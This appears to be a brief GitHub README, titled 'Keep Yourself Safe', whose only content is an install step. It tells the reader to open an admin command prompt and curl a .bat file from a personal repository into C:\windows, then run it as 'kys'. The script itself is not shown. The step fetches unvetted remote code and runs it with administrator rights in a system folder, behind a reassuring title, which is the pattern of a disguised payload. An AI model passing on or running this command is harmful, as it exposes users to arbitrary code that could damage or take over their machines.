 # Keep Yourself Safe

## Images:
<img scr="" weight="" height="">

# How to install
<p> You just need open cmd with admin perms, and paste next command<p/>

``` curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat ```
<p> After installing, you can boot it with command `kys`
